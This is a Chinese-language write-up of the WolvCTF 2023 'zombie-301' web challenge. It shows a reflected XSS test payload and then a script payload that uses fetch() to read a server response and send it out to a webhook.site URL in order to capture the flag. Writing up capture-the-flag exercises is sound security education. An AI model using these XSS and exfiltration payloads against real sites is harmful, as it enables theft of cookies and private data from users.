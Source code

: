 # WolvCTF(2023)-zombie-301 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下201中的debug接口：

![web-5.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.1.png)

debug接口有鉴权，访问不成功了，emm,现在可以知道的是，请求头中的cookie信息中含有flag信息，原本想试试访问请求头或者响应头信息 的，但是没有cors可以利用，**普通用户的浏览器**在默认安全策略下是**无法通过 `fetch` 获取跨域响应的内容（包括响应体、响应头等）**的，除非目标服务器主动设置了允许跨域访问的 CORS 头。如果是普通用户浏览器，JS 是拿不到跨域响应内容的；但在题目环境中，往往没开这个限制，甚至可以读取 `file://`。直接读取response信息：

```
<script>fetch("http://49.232.142.230:12327/").then((data) => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c=".concat(JSON.stringify(data))));</script>
```

在 CTF 中通过 `` + `fetch()` 成功读取并 exfiltrate 敏感 response 内容，是因为代码在服务端无头浏览器中运行，**绕过了浏览器原本的 CORS 限制。**

![web-5.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.2.png)

webhook回传 Node.js中读取 HTTP 响应内容时未做 `stream` 转换处理直接返回的原始 `ReadableStream` 对象

![web-5.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.3.png)
